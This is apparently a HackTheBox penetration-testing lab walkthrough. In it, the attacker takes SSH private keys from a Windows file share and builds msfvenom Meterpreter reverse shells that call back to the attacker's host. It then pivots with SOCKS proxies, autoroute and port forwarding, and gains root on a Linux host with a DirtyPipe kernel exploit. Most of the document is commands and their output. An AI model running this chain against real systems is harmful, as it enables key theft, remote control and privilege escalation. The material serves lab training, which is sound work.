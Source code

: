 Looking at the networking directory in the department shares, we can find SSH keys:
```powershell
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> dir


    Directory: C:\Department Shares\IT\Private\Networking


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022  11:34 AM           1706 harry-id_rsa
-a----         6/1/2022  11:34 AM           1702 james-id_rsa
-a----         6/1/2022  11:34 AM           1706 ssmallsadm-id_rsa
```

Let's download them to our machine:
```powershell
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download ".\harry-id_rsa" /root/HackTheBox/Paths/CPTS/AEN/Compromise/harry-id_rsa
                                        
Info: Downloading C:\Department Shares\IT\Private\Networking\harry-id_rsa to /root/HackTheBox/Paths/CPTS/AEN/Compromise/harry-id_rsa                                                        
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download ".\harry-id_rsa" /root/HackTheBox/Paths/CPTS/AEN/Compromise/james-id_rsa
                                        
Info: Downloading C:\Department Shares\IT\Private\Networking\harry-id_rsa to /root/HackTheBox/Paths/CPTS/AEN/Compromise/james-id_rsa                                                        
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Department Shares\IT\Private\Networking> download ".\harry-id_rsa" /root/HackTheBox/Paths/CPTS/AEN/Compromise/ssmallsadm-id_rsa
                                        
Info: Downloading C:\Department Shares\IT\Private\Networking\harry-id_rsa to /root/HackTheBox/Paths/CPTS/AEN/Compromise/ssmallsadm-id_rsa                                                   
                                        
Info: Download successful!
```

First we will create the reverse shell payload:
```shell-session
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.16.23 -f elf -o backupjob LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Using the shell we created let's get a meterpreter session to the Ubuntu host:
```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080
```

Let's run the payload on the target:
```shell-session
root@dmz01:~# chmod +x backupjob 
root@dmz01:~# ./backupjob
```

We will now configure SOCKS proxy for pivoting:
```shell-session
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
[*] Stopping the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) >
```

We will now add a route to the 172.16.8.0/23 subnet:
```shell-session
meterpreter > run autoroute -s 172.16.8.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.8.0/255.255.254.0...
[+] Added route to 172.16.8.0/255.255.254.0 via 10.129.229.147
[*] Use the -p option to list all active routes
```

Next let's create a payload for the DC01 machine:
```shell-session
# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=172.16.8.120 LPORT=1234 -o script.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: script.exe
```

We will now add a port forwarding rule to connect from the Windows host to our listener:
```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.16.23

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```

Now we will start the listener:
```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (201798 bytes) to 10.10.16.23
[*] Meterpreter session 2 opened (10.10.16.23:8081 -> 10.10.16.23:40131) at 2024-07-23 18:37:50 +0300

meterpreter >
```

Running a ping sweep we find another live host:
```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.9.0/24

[*] Performing ping sweep for IP range 172.16.9.0/24
[+]     172.16.9.3 host found
[+]     172.16.9.25 host found
```

Let's add a route to the 172.16.9.0/23 subnet:
```shell-session
meterpreter > run autoroute -s 172.16.9.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.9.0/255.255.254.0...
[+] Added route to 172.16.9.0/255.255.254.0 via 10.10.16.23
[*] Use the -p option to list all active routes
```

We are now successful logging in with the ssmallsadm user:
```shell-session
# proxychains ssh -i ssmallsadm-id_rsa ssmallsadm@172.16.9.25
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.10.0-051000-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 23 Jul 2024 04:53:27 PM UTC

  System load:  0.0                Processes:               229
  Usage of /:   27.4% of 13.72GB   Users logged in:         0
  Memory usage: 11%                IPv4 address for ens160: 172.16.9.25
  Swap usage:   0%


159 updates can be applied immediately.
103 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon May 23 08:48:13 2022 from 172.16.0.1
ssmallsadm@MGMT01:~$
```

Looking at the kernel version we can see the system is outdated:
```shell-session
ssmallsadm@MGMT01:~$ uname -a
Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Now let's copy the exploit code from [here](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c) to the target machine.

We can then compile and run the exploit and get a root shell:
```shell-session
ssmallsadm@MGMT01:~$ vim exp1.c
ssmallsadm@MGMT01:~$ gcc exp1.c -o exp1
ssmallsadm@MGMT01:~$ chmod +x exp1
ssmallsadm@MGMT01:~$ ./exp1
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
```
